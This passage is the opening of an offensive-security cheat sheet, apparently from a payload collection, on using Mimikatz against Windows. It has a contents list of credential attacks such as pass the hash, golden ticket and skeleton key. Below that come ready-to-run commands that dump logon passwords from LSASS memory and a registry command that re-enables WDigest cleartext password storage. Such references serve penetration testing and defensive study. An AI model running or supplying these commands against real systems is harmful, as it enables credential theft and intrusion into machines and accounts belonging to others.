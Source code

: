 # Windows - Mimikatz

## Summary

* [Execute commands](#execute-commands)
* [Extract passwords](#extract-passwords)
* [LSA Protection Workaround](#lsa-protection-workaround)
* [Mini Dump](#mini-dump)
* [Pass The Hash](#pass-the-hash)
* [Golden ticket](#golden-ticket)
* [Skeleton key](#skeleton-key)
* [RDP session takeover](#rdp-session-takeover)
* [Credential Manager & DPAPI](#credential-manager--dpapi)
  * [Chrome Cookies & Credential](#chrome-cookies--credential)
  * [Task Scheduled credentials](#task-scheduled-credentials)
  * [Vault](#vault)
* [Commands list](#commands-list)
* [Powershell version](#powershell-version)
* [References](#references)

![Data in memory](http://adsecurity.org/wp-content/uploads/2014/11/Delpy-CredentialDataChart.png)

## Execute commands

Only one command

```powershell
PS C:\temp\mimikatz> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
```

Mimikatz console (multiple commands)

```powershell
PS C:\temp\mimikatz> .\mimikatz
mimikatz # privilege::debug
mimikatz # log
mimikatz # sekurlsa::logonpasswords
mimikatz # sekurlsa::wdigest
```

## Extract passwords

> Microsoft disabled lsass clear text storage since Win8.1 / 2012R2+. It was backported (KB2871997) as a reg key on Win7 / 8 / 2008R2 / 2012 but clear text is still enabled.

```powershell
mimikatz_command -f sekurlsa::logonPasswords full
mimikatz_command -f sekurlsa::wdigest

# to re-enable wdigest in Windows Server 2012+
# in HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SecurityProviders\WDigest 
# create a DWORD 'UseLogonCredential' with the value 1.
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /f /d 1
```
